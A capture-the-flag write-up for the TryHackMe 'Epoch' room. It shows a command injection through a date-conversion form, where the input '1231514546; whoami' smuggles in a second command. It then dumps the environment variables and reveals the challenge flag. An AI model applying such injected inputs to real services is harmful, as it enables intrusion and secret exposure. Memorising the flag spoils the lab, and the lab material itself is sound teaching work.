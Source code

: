 # Room: Epoch

## General Info
- **Room link:** [epoch](https://tryhackme.com/room/epoch)

## Description

Be honest, you have always wanted an online tool that could help you convert UNIX dates and timestamps! Wait... it doesn't need to be online, you say? Are you telling me there is a command-line Linux program that can already do the same thing? Well, of course, we already knew that! Our website actually just passes your input right along to that command-line program!

## Provided Files / Links
- [x] Target Machine IP (10.10.86.44

## Command injection

First I noticed that the machine was vulnerable to command injection:
`1231514546; whoami` leads to `challenge`.

I then started looking for relevant files in the machine with `ls -la` in the obvious directories but it wasn't successful.

I then checked the env variables and notice the flag was there:

```
Fri Jan  9 15:22:26 UTC 2009
HOSTNAME=e7c1352e71ec
PWD=/home/challenge
HOME=/home/challenge
GOLANG_VERSION=1.15.7
FLAG=flag{7da6c7debd40bd611560c13d8149b647}
SHLVL=1
PATH=/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env
```

